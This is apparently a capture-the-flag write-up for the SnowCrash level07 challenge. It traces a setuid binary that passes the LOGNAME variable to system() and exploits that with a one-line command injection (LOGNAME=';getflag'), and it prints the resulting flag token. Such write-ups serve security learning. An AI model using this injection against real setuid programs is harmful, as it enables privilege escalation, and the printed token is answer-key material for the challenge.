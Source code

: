 # Level07

When logging in to level07, a level07 binary can be found in the home directory

```bash
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
```

When running the binary into `ltrace`, we can see the binary is using `system(3)`, which can be easily exploitable, and a `getenv()` call on the `LOGNAME` variable

```bash
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7c4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                                                     = 2007
geteuid()                                                                                                     = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                           = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                           = 0
getenv("LOGNAME")                                                                                             = "level07"
asprintf(0xbffff714, 0x8048688, 0xbfffff4c, 0xb7e5ee55, 0xb7fed280)                                           = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                        = 0
+++ exited (status 0) +++
```

When trying to modify the content of the `LOGNAME` variable, we can see the program also changes it's output, we know the program is running `/bin/echo` on `LOGNAME`.

At this point, we can easily guess how to run the `getflag` command in the `system(3)` call

```bash
level07@SnowCrash:~$ env LOGNAME=';getflag' ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
